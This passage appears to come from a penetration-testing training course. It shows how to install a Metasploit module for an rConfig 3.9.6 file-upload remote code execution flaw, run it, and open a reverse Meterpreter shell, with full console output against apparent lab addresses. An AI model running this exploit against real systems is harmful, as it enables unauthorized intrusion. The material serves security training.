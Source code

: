 `/usr/share/metasploit-framework/modules/exploits`

We can copy the code into a file and save it in `/usr/share/metasploit-framework/modules/exploits/linux/http` similar to where they are storing the code in the GitHub repo. We should also keep msf up to date using the commands `apt update; apt install metasploit-framework` or your local package manager. Once we find the exploit module and download it (we can use wget) or copy it into the proper directory from Github, we can use it to gain a shell session on the target. If we copy it into a file on our local system, make sure the file has `.rb` as the extension. All modules in MSF are written in Ruby.

___

## Using the rConfig Exploit and Gaining a Shell

In msfconsole, we can manually load the exploit using the command:

#### Select an Exploit

Infiltrating Unix/Linux

```shell
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

#### Execute the Exploit

Infiltrating Unix/Linux

```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```
